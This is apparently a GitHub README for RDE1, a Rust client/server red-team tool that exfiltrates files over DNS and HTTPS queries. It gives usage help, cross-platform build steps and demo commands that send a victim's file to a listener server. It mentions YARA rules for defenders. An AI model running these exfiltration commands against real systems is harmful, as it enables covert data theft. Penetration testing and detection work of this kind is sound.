


> :shipit: **Information:** RDE1 is an old personal project (*end 2022*) that I didn't continue development on. It's part of a list of projects that helped me to learn Rust. The code is probably considered obsolete and not in its best form. Maybe I'll pick up where I left off [#roadmap](#vertical_traffic_light-roadmap). However, **RDE1 is fully functional** and **allow to exfiltrate files from DNS and HTTPS queries**.

# RDE1 (Rusty Data Exfiltrator)

<p align="center">
  
  
  
  
  <a href="https://twitter.com/intent/follow?screen_name=g0h4n_0" title="Follow" rel="nofollow"></a>
</p>


<p align="center">

<br><i>Original logo from: <a href="https://www.pentestpartners.com/security-blog/data-exfiltration-techniques/">here</a></i>
</p>


> ⚠️ **Disclaimer**: 
> RDE1 is for educational purposes only. Use this at your own discretion, I cannot be held responsible for any damages caused.
> Usage of this tool for attacking targets without prior mutual consent is illegal. It is the end user’s responsibility to obey all applicable local, state and federal laws. I assume no liability and are not responsible for any misuse or damage caused by this tool.

:red_circle: **Redteamer**: I share with you a beta version of one of my tool allowing to exfiltrate files from DNS and HTTPS queries

:large_blue_circle: **Blueteamer**: You can find an example of yara rules for CRDE binary in this same repo

# :abacus: Summary

- [Description](#label-description)
- [How to compile it?](#tractor-how-to-compile-it)
  - [Using Makefile](#using-makefile)
  - [Using Dockerfile](#using-dockerfile)
- [Usage](#tv-usage)
- [Demo](#tv-demo)
  - [DNS exfiltration](#demo-with-dns-exfiltration)
  - [HTTPS exfiltration](#demo-with-https-exfiltration)
  <!-- - [ICMP exfiltration](#demo-with-icmp-exfiltration)-->
- [Roadmap](#vertical_traffic_light-roadmap)
- [Links](#link-links)

# :label: Description

> **SRDE** (**S**erver **R**usty **D**ata **E**xfiltrator)
>
> **CRDE** (**C**lient **R**usty **D**ata **E**xfiltrator)

**RDE1** it's client and server tool allowing auditor to extract sensitives datas and files from network written in rust.

Today **RDE1** can be use to extract files from DNS and HTTPS queries. All datas are encrypted with **AES256**. You juste need to specify the same password on the server and on the client.

# :tv: Usage

## SRDE Usage

```bash
g0h4n@computer$ srde --help

SRDE (Server Rusty Data Exfiltrator) is a tool allowing auditor to extract files from different protocol written in rust.

Usage: srde <COMMAND>

Commands:
  dns    Exfiltrate datas from DNS server
  https  Exfiltrate datas from HTTPS server
  icmp   Exfiltrate datas from ICMP queries (not yet implemented)
  help   Print this message or the help of the given subcommand(s)

Options:
  -h, --help  Print help information
```

```bash
g0h4n@computer$ srde dns --help

Exfiltrate datas from DNS server

Usage: srde dns [OPTIONS] --ip <ip> --port <port> --key <key>

Options:
  -i, --ip <ip>      IP for dns server
  -p, --port <port>  Port for dns server
  -k, --key <key>    Key to decode datas
  -v...              Set the level of verbosity
  -h, --help         Print help information
```

```bash
g0h4n@computer$ srde https --help

Exfiltrate datas from HTTPS server

Usage: srde https [OPTIONS] --ip <ip> --port <port> --private-cert <private-cert> --public-cert <public-cert> --key <key>

Options:
  -i, --ip <ip>                      IP for https server.
  -P, --port <port>                  Port for https server.
      --private-cert <private-cert>  Private certificate for SSL (key.pem)
      --public-cert <public-cert>    Public certificate for SSL (cert.pem)
  -k, --key <key>                    key to decode datas
  -v...                              Set the level of verbosity
  -h, --help                         Print help information
```

## CRDE Usage

```bash
g0h4n@computer$ crde --help

CRDE (Client Rusty Data Exfiltrator) is a tool allowing auditor to extract files from different protocol written in rust.

Usage: crde <COMMAND>

Commands:
  dns    Exfiltrate datas from DNS queries
  https  Exfiltrate datas from HTTPS queries
  icmp   Exfiltrate datas from ICMP queries (not yet implemented)
  help   Print this message or the help of the given subcommand(s)

Options:
  -h, --help  Print help information
```

```bash
g0h4n@computer$ crde dns --help

Exfiltrate datas from DNS queries

Usage: crde dns [OPTIONS] --filename <filename> --key <key>

Options:
  -f, --filename <filename>        File to exfiltrate
  -k, --key <key>                  Key to encode datas
  -d, --domain-name <domain-name>  Domain name like google.com where exfiltrate datas
  -n, --name-server <name-server>  Alternative IP address name server to use for queries
      --dns-tcp                    Use TCP instead of UDP for DNS queries
  -v...                            Set the level of verbosity
  -h, --help                       Print help information
```

```bash
g0h4n@computer$ crde https --help

Exfiltrate datas from HTTPS queries

Usage: crde https [OPTIONS] --filename <filename> --url <url> --key <key>

Options:
  -f, --filename <filename>  File to exfiltrate
  -u, --url <url>            URL site to extract datas like: https://www.htwmcl.fr/ or https://127.0.0.1:443/
  -k, --key <key>            key to encode datas
  -v...                      Set the level of verbosity
  -h, --help                 Print help information
```

# :tv: Demo

## Demo with DNS exfiltration

**Server command line** example with DNS from Linux:
```bash
sudo ./srde_release dns -k P4ssW0rD12345 -i 192.168.56.1 -P 53
```

**Client command line** example with DNS from Windows:
```bash
crde_x64.exe dns -f test.txt -k P4ssW0rD12345 -d google.com -n 192.168.56.1
```

In this example the auditor extracts the file **test.txt** from the victim's computer via DNS query to the server **192.168.56.1**.

<p align="center">

</p>

## Demo with HTTPS exfiltration

**Server command line** example with HTTPS from Linux:
```bash
sudo ./srde_release https -i 0.0.0.0 -P 443 -k PassWord --private-cert server/key.pem --public-cert server/cert.pem
```

**Client command line** example with HTTPS from Windows:
```bash
crde_x64.exe https -f test.txt -u https://192.168.56.1/ -k PassWord
```

In this example the auditor extracts the file **test.txt** from the victim's computer via HTTPS query to the server **192.168.56.1**.

<p align="center">

</p>

<!-- 
## Demo with ICMP exfiltration

**Server command line** example with ICMP from Linux:
```bash
sudo ./srde_release icmp -k PassWord -i eth0
#-i for interface default = any
```

**Client command line** example with ICMP (ping) from Windows:
```bash
crde_x64.exe icmp -f test.txt -i 192.168.56.1 -k PassWord
```

In this example the auditor extracts the file **test.txt** from the victim's computer via ICMP query to the server **192.168.56.1**.

<p align="center">

</p>
-->

# :tractor: How to compile it?

## Using Makefile

You can use the **make** command to compile it for Linux, Windows or mac0S.

More command in the **Makefile**:

```bash
SRDE server:
usage: make srde_debug
usage: make srde_release
usage: make srde_windows
usage: make srde_windows_x64
usage: make srde_windows_x86
usage: make srde_linux
usage: make srde_linux_aarch64
usage: make srde_linux_x86_64
usage: make srde_macos
usage: make srde_arm_musl
usage: make srde_armv7

CRDE client:
usage: make crde_debug
usage: make crde_release
usage: make crde_windows
usage: make crde_windows_x64
usage: make crde_windows_x86$
usage: make crde_linux
usage: make crde_linux_aarch64
usage: make crde_linux_x86_64
usage: make crde_macos
usage: make crde_arm_musl
usage: make crde_armv7

Dependencies:
usage: make install_windows_deps
usage: make install_macos_deps

Documentation:
usage: make srde_doc
usage: make crde_doc

Cleaning:
usage: make clean
```

## Using Dockerfile

Build RED1 with docker to make sure to have all dependencies.

```bash
docker build --rm -t rde1 .

# Build SRDE server:
docker run --rm -v ./:/usr/src/rde1 rde1 srde_windows
docker run --rm -v ./:/usr/src/rde1 rde1 srde_linux
docker run --rm -v ./:/usr/src/rde1 rde1 srde_macos


# Build CRDE client:
docker run --rm -v ./:/usr/src/rde1 rde1 crde_windows
docker run --rm -v ./:/usr/src/rde1 rec2 crde_linux
docker run --rm -v ./:/usr/src/rec2 rec2 crde_macos
```

<details><summary><b>SHOW MORE</b></summary>

## Using simply cargo

You need to install rust on your system (Windows/Linux/MacOS).

[https://www.rust-lang.org/fr/tools/install](https://www.rust-lang.org/fr/tools/install)

Here is how to compile the "release" and "debug" versions from "cargo" command.

**Client binary:**
```bash
git clone https://github.com/g0h4n/RDE
cd RDE
cargo b --release --manifest-path client/Cargo.toml
#or debug version
cargo b --manifest-path client/Cargo.toml
```
The result can be found in "**client/target/release/**" or in "**client/target/debug/**" folder.

**Server binary:**
```bash
git clone https://github.com/g0h4n/RDE
cd RDE
cargo b --release --manifest-path server/Cargo.toml
#or debug version
cargo b --manifest-path server/Cargo.toml
```

The result can be found in "**server/target/release/**" or in "**server/target/debug/**" folder.

Below you can find the compilation methodology for each of the OS from Linux. If you need another compilation system, please consult the list in this link : [https://doc.rust-lang.org/nightly/rustc/platform-support.html](https://doc.rust-lang.org/nightly/rustc/platform-support.html)


## Manually for Windows static version from Linux

```bash
#Install rustup and cargo in Linux
curl https://sh.rustup.rs -sSf | sh

#Add Windows deps
rustup install stable-x86_64-pc-windows-gnu
rustup target add x86_64-pc-windows-gnu

#Static compilation for Windows
git clone https://github.com/g0h4n/RDE
cd RDE

#Compile static client "crde.exe"
RUSTFLAGS="-C target-feature=+crt-static" cargo build --release --target x86_64-pc-windows-gnu --manifest-path client/Cargo.toml
#Compile static server "srde.exe"
RUSTFLAGS="-C target-feature=+crt-static" cargo build --release --target x86_64-pc-windows-gnu --manifest-path server/Cargo.toml
```

The client **crde.exe** binary can be found in "**client/target/x86_64-unknown-linux-gnu/release/**" folder.

The server **srde.exe** binary can be found in "**server/target/x86_64-unknown-linux-gnu/release/**" folder.

</details>

# :vertical_traffic_light: Roadmap

- Exiltration
  - [x] DNS queries
  - [x] HTTPS queries
  - [ ] ICMP queries
  - [ ] Add OPPSEC mode with **--timer** and **--jitser** values
 
- Crypto
  - [x] XOR (not used)
  - [x] AES-256-CBC (default) *(may be vulnerable to the "Padding Oracle" method which allows to find the blocks in clear text)*

- Versions
    - [x] Linux
    - [x] Windows
    - [ ] macOS (not tested)

# :link: Links

- AES: [https://github.com/jj-style/stegosaurust](https://github.com/jj-style/stegosaurust)
- DNS: [https://github.com/EmilHernvall/dnsguide](https://github.com/EmilHernvall/dnsguide)
- HTTPS: [https://github.com/actix/actix-web](https://github.com/actix/actix-web)
- Data Exfiltration logo: [https://www.pentestpartners.com/security-blog/data-exfiltration-techniques/](https://www.pentestpartners.com/security-blog/data-exfiltration-techniques/)
